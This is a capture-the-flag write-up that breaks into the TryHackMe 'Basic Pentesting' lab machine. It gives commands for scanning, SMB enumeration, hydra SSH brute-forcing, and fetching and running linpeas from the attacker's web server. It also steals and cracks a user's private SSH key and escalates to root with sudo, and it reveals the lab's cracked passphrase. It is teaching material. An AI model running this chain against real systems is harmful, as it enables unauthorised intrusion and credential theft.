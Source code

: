 # Writeup for [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) from [Try Hack Me](https://tryhackme.com)

## Table of Contents
[Setting Up](#setting-up)  
[Information Gathering and Enumeration](#information-gathering-and-enumeration)  
[Gaining Access](#gaining-access)  
[Privilege Escalation](#privilege-escalation)  

## Setting Up
1. Make sure you are connected to the TryHackeMe VPN Network.
2. Make sure you have deployed the machine and there is a valid IP Address that you can hit.
3. If any of this sound unfamiliar, please consult the Try Hack Me help page.

## Information Gathering and Enumeration
To start things off, we should run an nmap scan on the machine.  
```
nmap -v -sC -sV -oN nmap/initial 10.10.2.82
```  
>Legend:
>1. -v -> verbose mode
>2. -sC -> Use nmap default script
>3. -sV -> enumerate service versions
>4. -oN -> output normal format in the nmap directory with the file called initial
>5. 10.10.2.82 -> IP address of the victim machine

After running the nmap scan, we should see our results in the nmap directory.  
I am using `less` to view the results.
![nmap results](./img/nmap-result.png)  
We can see quite a few services running on this server. But I would like to start with those http services on port 80 and 8080. Those samba shares might also contain some juicy info.  
We should hit that http server on port 80 by searching the victim IP address in our web browser with the http schema (http://10.10.2.82).  
We see a page that says that it is undergoing maintencance.    
![port80-undergoing-maintencance](./img/port80-undergoing-maintencance.png)  
If we view the page source for this particular page, then we could see some comments from the devs.    
![port80-maintencance-source](./img/port80-maintencance-source.png)  

Based on this comment, we could assume that there will be a developers page or something of the sort. So let's investigate.  
I'm going to use a tool called `gobuster` to fuzz directories.
```
gobuster dir -u http://10.10.2.82 -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/port80-root
```
>Legend:
>1. dir -> specify directory fuzzing mode
>2. -u -> url
>3. -w -> wordlist to use ( I use [SecLists](https://github.com/danielmiessler/SecLists) ( SecLists is also in the kali repos ))
>4. -o -> outfile to the directory gobuster with the file called port80-root

While that is running in the background we should check those samba shares.  
We can use the default `smbclient` tool on Linux.
```
smbclient -L \\\\10.10.2.82\\
```
>Legend:
>1. -L -> List shares

We could try using anonymous login by typing the password as anonymous or leaving it blank is also fine.  
![smb-list](./img/smb-list.png)  

After knowing the name of the share we could simply connect to that share with anonymous login once again.  
![smb-connect](./img/smb-connect.png)  

After that we can run `ls` to list all files and directories in that share, and we see staff.txt. We can download that file by running `get staff.txt`.
![staff-txt](./img/staff-txt.png)  

We can see potential users on the box from that staff.txt which are `jan` and `kay`. We should write that to a file to potentially brute-force passwords againts SSH on the box. I will write it to a file called creds.txt where every entry is on its own line.  

Going back to our gobuster scan, we found a peculiar directory called **development**.  
![gobuster-development](./img/gobuster-results.png)  

After visiting that webpage, we can see 2 files which are dev.txt and j.txt. We should download both of them.  
![port80-dev](./img/port80-dev.png)

![wget-dev](./img/wget-dev.png)  

From reading j.txt we can assume that one of the users has a weak password. We could assume J stands for the user jan and K for the user kay.
Weak password are always good for us as attackers because we can probably brute-force that password using a popular wordlist like **rockyou.txt**. ( If you are using Kali or Parrot, it's in /usr/share/wordlist/rockyou.txt )  

## Gaining Access
I'm going to use a brute-forcing tool called `hydra`. And we are going to use that file that we created, creds.txt.
```
hydra -L creds.txt -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.2.82
```
>Legend:
>1. -L -> List of users
>2. -P -> List of passwords
>3. ssh:// -> bruteforce the SSH Protocol ( default port 22 , change if necessary )  

Give it some time depending on your hardware, and we should get some passwords.  
![hydra-result](./img/hydra-result.png)  
We found jan's password which we can use to authenticate via ssh to the box.
We should also update our creds.txt file for that password, just to keep track.

```
ssh jan@10.10.2.82
```  
## Privilege Escalation
Once we gain access we should try some low hanging fruit like `sudo -l` since we know jan's password. Sadly jan can't run sudo on this box, so we should try some automated enumeration to look for more low hanging fruit.  
I personally love to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git), so let's upload this script to the box.

On the directory where linpeas is stored, run `python3 -m http.server` to run a simple http server.
![linpeas-attacker](./img/linpeas-attacker.png)  

On the victim machine, navigate to a more isolated directory ( I use /dev/shm ) and run `wget http://[YOUR IP ADDRESS]:8000/linpeas.sh`
( To check your tryhackme IP address, run `ip a s tun0` on your machine.)
![linpeas-victim](./img/linpeas-victim.png)  

Mark the script as executable with `chmod +x linpeas.sh` and just run the script. I usually like to keep a copy of the results so I will also tee it
`./linpeas.sh | tee linpeas.log`  

There will be a lot of output from linpeas, and if you want to view the log file, we can use `less -r linpeas.log`.  

From reading the output of linpeas, I found that kay has an SSH private key accessible to us.
![kay-ssh](./img/kay-ssh.png)  

We can just cat the id_rsa file which is the private key used to authenticate via ssh, and copy it to our local box. We could see that this ssh key is encrypted by reading the first few lines of the file, so we are going to need to decrypt it.  
We are going to use a tool called John The Ripper ( john ).    

First of all we need to convert this encrypted id_rsa file to something that john can decrypt, so there is a script called ssh2john.py.
`ssh2john kay-id_rsa > kay-for_john`

We are going to use this script on a file called `kay-id_rsa` and output it to `kay-for_john`.  
After that, we could just run `john kay-for_john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`
![john-result](./img/john-result.png)  
We got the password which is **beeswax**. Now we can use that id_rsa file to authenticate as kay on the box.
`ssh -i kay-id_rsa kay@10.10.2.82`  
Also make sure that we `chmod 600 kay-id_rsa` first so ssh doesn't whine to us that this sshkey is not protected.
![kay-login](./img/kay-login.png)  

Looking at kay's home directory, we can see a pass.bak file that looks like a password when we cat it out. We should test if this is kay's password with `sudo -l`.  
Looks like I was spot on, and we can run anything in this box as root ( from sudo ).
![kay-password](./img/kay-password.png)  

We could simply run `sudo bash` and we should get a root shell!  
![root-shell](./img/root-shell.png) 
